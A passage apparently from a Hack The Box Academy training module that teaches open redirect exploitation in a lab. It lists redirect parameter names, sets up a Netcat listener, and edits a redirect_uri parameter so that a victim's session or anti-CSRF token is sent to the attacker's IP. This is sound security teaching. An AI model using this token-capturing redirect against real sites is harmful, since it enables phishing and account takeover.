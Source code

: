 * ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect_to=
* ?next=
* ?newurl=
* ?redir=

### Open Redirect Example

Navigate to `oredirect.htb.net`. You will come across a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the `redirect_uri` parameter. A token is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker:
![72](https://academy.hackthebox.com/storage/modules/153/72.png)

Let us test if we can control the site where the `redirect_uri` parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).

We can test that as follows. First, let us set up a Netcat listener:
```
user@htb[/htb]$ nc -lvnp 1337
```
Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request captured also includes the token!
![71](https://academy.hackthebox.com/storage/modules/153/71.png)

So, remember that the redirect to the malicious URL does not occur when the victim visit the provided URL, but when it clicks on "Reset Password" button, so when the POST request is sent.

Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.

If the request to complete.html was GET-based, you would still be able to obtain the token via exploiting the open redirect vulnerability.
